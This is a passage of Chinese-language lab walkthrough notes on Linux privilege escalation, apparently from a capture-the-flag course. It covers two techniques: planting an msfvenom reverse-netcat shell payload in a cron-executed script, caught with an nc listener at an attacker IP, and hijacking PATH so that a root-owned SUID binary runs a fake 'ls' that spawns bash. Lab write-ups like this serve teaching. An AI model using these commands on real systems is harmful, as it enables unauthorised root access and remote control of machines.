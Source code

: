 > 此处建议使用命令：cat /etc/crontab

使用msfvenom生成一个反向shell的payload，将该payload内容复制粘贴到定时执行的文件中：

```shell
# msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.198.162 lport=8888 R

echo "[MSFVENOM OUTPUT]" > autoscript.sh
```

![image-20221009180407008](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009180407008.png)

![image-20221009180725586](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009180725586.png)

在攻击机终端设置netcat监听器，并捕获shell：

```shell
#此处端口和之前生成的payload端口对应
nc -lvnp 8888
```

![image-20221009180914579](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009180914579.png)

答题卡

![image-20221009180952740](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009180952740.png)

## 利用PATH 变量

**什么是 PATH？**

PATH 是 Linux 和类 Unix 操作系统中的一个环境变量，它指定保存可执行程序的目录。当用户在终端中运行任何命令时，系统会在 PATH 变量的帮助下搜索可执行文件，以响应用户执行的命令。

在" echo $PATH "命令的帮助下查看相关用户的 Path 非常简单。

**这怎么能让我们提升特权呢？**

假设我们有一个 SUID 二进制文件，运行它，我们可以看到它正在调用系统 shell 来执行一个基本的进程，比如带“ ps”的列表进程。与前面的 SUID 示例不同,在这种情况下，我们不能通过为命令注入提供参数来利用它，那么我们能做些什么来尝试和利用它呢？

我们可以将 PATH 变量重写到我们选择的位置，因此，当 SUID 二进制程序调用系统 shell 来运行一个可执行文件时，它会运行一个我们自己编写的可执行文件！

与任何 SUID 文件一样，它将使用与 SUID 文件所有者相同的权限运行此命令！如果该SUID文件的所有者是root，使用这个方法，我们就可以作为 root 来运行任何我们想要执行的命令！

**答题**

在user5账户的主目录下(可以使用cd \~)，运行script文件：

![image-20221009182112006](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009182112006.png)

可以发现该文件应该是调用了 ls命令，因为该文件的执行效果和 ls命令一样。

现在切换到tmp目录下，创建一个包含命令的可执行文件：

```shell
cd /tmp/
#格式：
#echo "[whatever command we want to run]" > [name of the executable we're imitating]        # imitating--假冒

#用启动shell的命令来假冒ls命令 >>表示追加内容到指定文件内容中 此处选择的shell是bash类型的shell
echo "/bin/bash" >> ls
#附加可执行权限
chmod +x ls
```
